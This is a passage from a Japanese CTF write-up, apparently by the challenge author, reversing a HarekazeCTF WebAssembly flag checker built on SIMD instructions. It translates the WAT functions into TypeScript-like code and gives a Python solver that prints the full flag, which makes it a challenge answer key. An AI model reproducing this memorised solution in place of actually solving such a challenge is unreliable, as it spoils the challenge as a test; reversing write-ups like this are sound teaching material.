    (local $i (;0;) i32) (local $result (;1;) i32)
    i32.const 0
    local.set $result
    i32.const 0
    local.set $i
    block $label0
      loop $label1
        local.get $i
        i32.const 4
        i32.shl
        local.get $i
        i32.const 5
        i32.shl
        i32.const 1024
        i32.add
        call $check_block
        i32.eqz
        br_if $label0
        local.get $i
        i32.const 1
        i32.add
        local.tee $i
        i32.const 4
        i32.ne
        br_if $label1
      end $label1
      i32.const 1
      local.set $result
    end $label0
    local.get $result
  )
```

各命令の意味を[WebAssembly Reference Manual](https://github.com/sunfishcode/wasm-reference-manual)などで調べつつTypeScript風のコードに直してみると、以下のような処理になっていることがわかります。

```typescript
function $check(): i32 {
    let $i: i32;

    for ($i = 0; $i < 4; $i++) {
        if ($check_block($i << 4, ($i << 5) + 1024) === 0) {
            return 0;
        }
    }

    return 1;
}
```

#### $check_block
次は `$check_block` を見ていきます。`v128.load`, `i64x2.splat`, `v128.and` といった命令が含まれているのが特徴的ですが、これらは[SIMD命令](https://github.com/WebAssembly/spec/blob/f5a260a2025ba4d7d398654581c7c532e3a2c319/proposals/simd/SIMD.md)です。

```
  (func $check_block (;1;) (param $offset_input (;0;) i32) (param $offset_enc (;1;) i32) (result i32)
    (local $i (;2;) i32) (local $mask (;3;) i64) (local $block (;4;) v128) (local $result (;5;) i32)
    local.get $offset_input
    v128.load
    local.set $block
    i32.const 0
    local.set $result
    i64.const -9205322385119247871
    local.set $mask
    i32.const 0
    local.set $i
    block $label0
      loop $label1
        local.get $block
        local.get $mask
        i64x2.splat
        v128.and
        call $compress
        local.get $offset_enc
        local.get $i
        i32.const 2
        i32.shl
        i32.add
        i32.load
        i32.ne
        br_if $label0
        local.get $mask
        i64.const 8
        i64.rotr
        local.set $mask
        local.get $i
        i32.const 1
        i32.add
        local.tee $i
        i32.const 8
        i32.ne
        br_if $label1
      end $label1
      i32.const 1
      local.set $result
    end $label0
    local.get $result
  )
```

この関数もTypeScriptっぽいコードに直すと以下のようになります。まず第一引数として与えられたオフセットを使って、ユーザが入力した文字列から16バイトを取得し `$block` というローカル変数に格納しています。それと `$mask` とのビット論理積を取ることで、各バイトから1ビットずつ抽出しています。

その結果を `compress` という関数に与え、返り値と第二引数として与えられたメモリのオフセットを元にメモリから数値を取得して比較しています。その後 `$mask` を8ビット右にローテートし、`$block` からまた別のビットを抽出し…という処理を8回繰り返しています。

```typescript
function $check_block($offset_input: i32, $offset_enc: i32): i32 {
    let $i: i32;
    let $mask: i64;
    let $block: v128;

    $block = v128_load($offset_input);
    $mask = 0x8040201008040201;

    for ($i = 0; $i < 8; $i++) {
        if (
            compress(i64x2_splat($mask) & $block) !==
            i32_load($offset_enc + ($i << 2))
        ) {
            return 0;
        }

        $mask = i64_rotr($mask, 8);
    }

    return 1;
}
```

#### $compress
`$check_block` から呼ばれている `$compress` を確認します。ここで使われている `i8x16.extract_lane_u` は `v128` から指定した8ビットだけを取り出す命令です。

```
  (func $compress (;0;) (param $x (;0;) v128) (result i32)
    i32.const 0
    local.get $x
    i8x16.extract_lane_u 0
    i32.or
    local.get $x
    i8x16.extract_lane_u 1
    i32.or
    local.get $x
    i8x16.extract_lane_u 2
    i32.or
    local.get $x
    i8x16.extract_lane_u 3
    i32.or
    local.get $x
    i8x16.extract_lane_u 4
    i32.or
    local.get $x
    i8x16.extract_lane_u 5
    i32.or
    local.get $x
    i8x16.extract_lane_u 6
    i32.or
    local.get $x
    i8x16.extract_lane_u 7
    i32.or
    i32.const 8
    i32.shl
    local.get $x
    i8x16.extract_lane_u 8
    i32.or
    local.get $x
    i8x16.extract_lane_u 9
    i32.or
    local.get $x
    i8x16.extract_lane_u 10
    i32.or
    local.get $x
    i8x16.extract_lane_u 11
    i32.or
    local.get $x
    i8x16.extract_lane_u 12
    i32.or
    local.get $x
    i8x16.extract_lane_u 13
    i32.or
    local.get $x
    i8x16.extract_lane_u 14
    i32.or
    local.get $x
    i8x16.extract_lane_u 15
    i32.or
  )
```

この関数をTypeScriptっぽいコードに直すと以下のようになります。ビット論理和とビットシフトによって `v128` を `i32` に圧縮しています。

```typescript
function $compress($x: v128): i32 {
    let $result: i32 = 0;

    for (let $i: i32 = 0; $i < 8; $i++) {
        $result |= i8x16_extract_lane_u($x, $i);
    }
    $result = $result << 8;

    for (let $i: i32 = 8; $i < 16; $i++) {
        $result |= i8x16_extract_lane_u($x, $i);
    }

    return $result;
}
```

### ソルバを書く
さて、ここまでの解析で、以下のようにメモリに配置されているバイト列はフラグの各ビットがシャッフルされたものであることがわかりました。



このバイト列に対して `$compress`, `$check_block`, `$check` とは逆の処理をするPythonスクリプトを書きましょう。

```python
import binascii
import struct

def decode(s):
  res = [0 for _ in range(16)]

  for i in range(8):
    for j in range(8):
      res[i] |= (s[j] & 1 << ((i + j) % 8 + 8)) >> 8

  for i in range(8, 16):
    for j in range(8):
      res[i] |= s[j] & 1 << ((i + j) % 8)

  return ''.join(chr(c) for c in res)

enc = '''
4D 60 00 00 56 61 00 00 63 70 00 00 53 6F 00 00 47 61 00 00 55 4B 00 00 7A 70 00 00 7A 6F 00 00
6F 7C 00 00 63 74 00 00 63 40 00 00 74 77 00 00 78 71 00 00 7F 77 00 00 59 27 00 00 65 24 00 00
6D 30 00 00 74 5C 00 00 55 76 00 00 7B 60 00 00 6C 73 00 00 2B 76 00 00 7A 74 00 00 54 6D 00 00
36 7E 00 00 71 75 00 00 24 4F 00 00 75 61 00 00 78 7E 00 00 70 61 00 00 3D 36 00 00 74 74 00 00
'''.strip().splitlines()
enc = [binascii.unhexlify(line.replace(' ', '')) for line in enc]
enc = [struct.unpack('<IIIIIIII', line) for line in enc]

flag = ''.join(decode(line) for line in enc)
print(flag)
```

実行するとフラグが得られました。

```
$ python solve.py
HarekazeCTF{I_wr0te_web4ssembly_text_f0rm4t_by_h4nd_tsuk4ret4y0}
```

```
HarekazeCTF{I_wr0te_web4ssembly_text_f0rm4t_by_h4nd_tsuk4ret4y0}
```

---

WebAssemblyでSIMDがサポートされたと聞いて、触ってみたいなあと思って作った問題でした。フラグの通りぽちぽちとwatを書いて問題のwasmを作りました。

wasmのrev、フラグを入力するとチェックしてくれるといったあたりが[SECCON CTF 2021の `<flag>`](https://ptr-yudai.hatenablog.com/entry/2021/12/19/232158#Reversing-267pts-flag)と似ていますが、これはまったくの偶然で、SECCON CTFの開催より前にすでにこの問題は完成していました。